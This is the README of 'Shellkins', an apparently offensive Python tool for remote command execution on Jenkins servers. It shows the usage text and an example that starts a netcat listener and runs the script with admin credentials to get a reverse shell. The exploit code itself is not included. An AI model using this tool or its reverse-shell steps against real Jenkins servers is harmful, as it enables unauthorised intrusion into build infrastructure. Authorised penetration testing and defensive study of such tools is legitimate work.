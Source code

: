 # Shellkins 
<p align="center">
<a href="#license"><img src="resources/images/logo.png"></a>
</p>

[![xiosec - Shellkins](https://img.shields.io/static/v1?label=xiosec&message=Shellkins&color=blue&logo=github)](https://github.com/xiosec/Shellkins)
[![stars - Shellkins](https://img.shields.io/github/stars/xiosec/Shellkins?style=social)](https://github.com/xiosec/Shellkins)
[![forks - Shellkins](https://img.shields.io/github/forks/xiosec/Shellkins?style=social)](https://github.com/xiosec/Shellkins) [![GitHub release](https://img.shields.io/github/release/xiosec/Shellkins?include_prereleases=&sort=semver)](https://github.com/xiosec/Shellkins/releases/)
[![License](https://img.shields.io/badge/License-MIT-blue)](#license)
[![issues - Shellkins](https://img.shields.io/github/issues/xiosec/Shellkins)](https://github.com/xiosec/Shellkins/issues)

[Jenkins](https://en.wikipedia.org/wiki/Jenkins_(software)) Remote Command Execution
> Jenkins is an open source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and continuous delivery.

## Usage
```
$ python3 shellkins.py --help
```
```
usage: shellkins.py [-h] [--host HOST] [-u USER] [-p PASS] [--lhost LHOST] [--lport LPORT]

Jenkins Remote Command Execution
github : https://github.com/xiosec/Shellkins
by xiosec

optional arguments:
  -h, --help            show this help message and exit
  --host HOST           jenkins host address
  -u USER, --user USER  jenkins account username
  -p PASS, --pass PASS  jenkins account password
  --lhost LHOST         local listener address
  --lport LPORT         local listener port
```

## Example

Clone this repository
```
$ git clone https://github.com/xiosec/Shellkins.git
```
Run a listener (on your machine)
```
$ nc -nlvp 1234
```
Run the script
```
$ python3 shellkins.py --host http://example.com:8080/ --user admin --pass admin --lhost 127.0.0.1 --lport 1234
```

## License

Released under [MIT](/LICENSE) by [@xiosec](https://github.com/xiosec).
